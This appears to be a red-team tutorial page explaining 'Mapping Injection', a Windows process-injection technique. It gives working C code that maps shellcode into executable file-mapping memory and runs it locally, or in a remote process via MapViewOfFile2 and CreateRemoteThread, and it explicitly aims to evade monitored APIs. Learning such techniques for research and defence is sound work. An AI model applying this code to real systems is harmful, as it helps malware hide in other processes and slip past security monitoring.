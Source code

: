 # Mapping Injection

## Theory

Mapping Injection is a technique of Process injection that avoids the use of common monitored Windows APIs like `VirtualAlloc` , `WriteProcessMemory` , `CreateRemoteThread` (Although I have used it here for demonstration purpose, there are a lot better alternatives). First we create a file mapping using the `CreateFileMapping` api and then use `MapViewOfFile` api to map that into our process'es address space and then use `memcpy` to copy the shellcode to that address and finally create a thread to run it. At the end, we can use `UnmapViewOfFile` to unmap the mapped view of file.

For doing the same in another Process, we can use `MapViewOfFile2` api (after mapping & copying the shellcode to our address) and specify a handle to the remote process. The important thing here is that the handle should have `PROCESS_VM_OPERATION` access.

## Local Mapping Injection

Okay so as we know the very first thing is to create the file mapping. We can use `CreateFileMappingW` to do so. We have to give `INVALID_HANDLE_VALUE` if we want to have a page file with custom size.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

```c
hFileObj = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, szCode, NULL);
```

Then we can map it using `MapViewOfFile`. As stated in MSDN

> To have a file with executable permissions, an application must call [CreateFileMapping](https://learn.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createfilemappinga) with either PAGE\_EXECUTE\_READWRITE or PAGE\_EXECUTE\_READ, and then call MapViewOfFile with FILE\_MAP\_EXECUTE | FILE\_MAP\_WRITE or FILE\_MAP\_EXECUTE | FILE\_MAP\_READ.

```c
pMap = MapViewOfFile(hFileObj, FILE_MAP_EXECUTE | FILE_MAP_WRITE, NULL, NULL, szCode);
```

Finally we can just copy the shellcode to that address and create a thread to run our shellcode.

```c
memcpy(pMap, shellcode, szCode);
CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)pMap, 0, 0, NULL);
WaitForSingleObject(GetCurrentProcess(), 2000);
```

<figure><img src="../../.gitbook/assets/local_mapping.gif" alt=""><figcaption></figcaption></figure>

## Remote Mapping Injection

For Remote Mapping, we still have to first create the mapping locally and copy the shellcode to the address. This is done in order to avoid using functions like `WriteProcessMemory`. Another approach would be to map the file remotely first but then we might have to use ^ for writing shellcode to that address since it is not in our process. Thus, after we have copied the shellcode to our map view, we can just map the same file to the remote process and create a remote thread which will run it.

<pre class="language-c"><code class="lang-c">hProcess = OpenProcess(PROCESS_VM_OPERATION, FALSE, pid); 
hFileMap = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, szCode, NULL);
pMapLocal = MapViewOfFile(hFileMap, FILE_MAP_WRITE, 0, 0, szCode);
memcpy(pMapLocal, shellcode, szCode);
// note that MapViewOfFile2 requires you to link onecore.lib
pMapRemote = MapViewOfFile2(hFileMap, hProcess, NULL, NULL, szCode, NULL, PAGE_EXECUTE_READWRITE);
HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pMapRemote, NULL, 0, NULL);
<strong>WaitForSingleObject(hThread, 5000);
</strong></code></pre>

All in all this is what we are doing, as I mentioned earlier, I have used `CreateRemoteThread` just for demonstration, and actually there are various other methods to execute the code. We can see calc spawning when I run it against notepad.

<figure><img src="../../.gitbook/assets/remote_mapping.gif" alt=""><figcaption></figcaption></figure>

That's it for now, there's also some other variations to this technique which I want to cover, I'll do those next time. If you liked it, pls do let me know on [twitter](https://x.com/ZzN1NJ4). Thank you.

